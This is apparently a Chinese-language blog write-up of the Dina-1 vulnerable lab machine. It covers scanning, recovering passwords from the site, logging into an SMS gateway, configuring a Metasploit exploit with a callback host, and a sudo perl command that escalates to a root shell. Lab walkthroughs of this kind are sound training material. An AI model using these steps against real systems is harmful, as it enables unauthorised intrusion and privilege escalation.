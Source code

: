 ```yaml
---
layout: post
title: Dina-1
subtitle: Dina-1
date: 2025-07-08 10:55
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

主机发现

```shell
sudo arp-scan -l
```

![image.png300](https://img.ghostliner.top/lLgUbT.png)

```shell
nmap -T4 -A -p- 192.168.163.133
```

![image.png300](https://img.ghostliner.top/A2HyBe.png)

只有80端口，访问网站，目录扫描，扫描到`robots.txt` secure目录
![image.png300](https://img.ghostliner.top/Lsk2KW.png)

`/nothing`  发现密码 `my secret pass freedom password helloworld! diana iloveroot`
![image.png300](https://img.ghostliner.top/ppisSE.png)

下载 <http://192.168.163.133/secure/backup.zip>

使用密码 `freedom` 成功解压
![image.png300](https://img.ghostliner.top/iQNEDt.png)

访问 `/SecreTSMSgatwayLogin` 登陆用户名：touhid 密码：diana

浏览网站发现`send from file`页面可以上传文件，上传木马显示成功，但未找到

```shell
# 扫描网站框架
whatweb -v http://192.168.163.133/SecreTSMSgatwayLogin/
```

![image.png300](https://img.ghostliner.top/BuPbjv.png)

msf搜索相关漏洞，选择0
![image.png300](https://img.ghostliner.top/TDlxDk.png)

```shell
options
set rhosts 192.168.163.133
set lhost 192.168.163.132
set username touhid
set password diana
set TARGETURI http://192.168.163.133/SecreTSMSgatwayLogin/
```

![image.png300](https://img.ghostliner.top/XVCPJ6.png)

```shell
sudo perl -e 'exec "/bin/bash";'
```

![image.png300](https://img.ghostliner.top/RSWciW.png)
